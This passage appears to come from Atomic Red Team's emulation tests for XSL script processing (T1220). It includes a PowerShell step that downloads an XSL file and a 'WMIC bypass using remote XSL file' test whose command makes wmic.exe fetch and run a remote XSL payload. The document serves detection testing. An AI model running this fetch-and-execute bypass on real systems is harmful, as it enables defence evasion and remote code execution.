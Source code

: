 ##### Description: XSL file must exist on disk at specified location (#{local_xsl_file})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{local_xsl_file}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{local_xsl_file}") -ErrorAction Ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1220/src/wmicscript.xsl" -OutFile "#{local_xsl_file}"
```

<br/>
<br/>

## Atomic Test #4 - WMIC bypass using remote XSL file

Executes the code specified within a XSL script using a remote payload. Open Calculator.exe when test successfully executed, while AV turned off.

**Supported Platforms:** Windows

**auto_generated_guid:** 7f5be499-33be-4129-a560-66021f379b9b

#### Inputs:

| Name            | Description                           | Type   | Default Value                                                                                         |
| --------------- | ------------------------------------- | ------ | ----------------------------------------------------------------------------------------------------- |
| remote_xsl_file | Remote location of an XSL payload.    | url    | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/wmicscript.xsl |
| wmic_command    | WMI command to execute using wmic.exe | string | process list                                                                                          |

#### Attack Commands: Run with `command_prompt`!

```cmd
wmic #{wmic_command} /FORMAT:"#{remote_xsl_file}"
```

<br/>
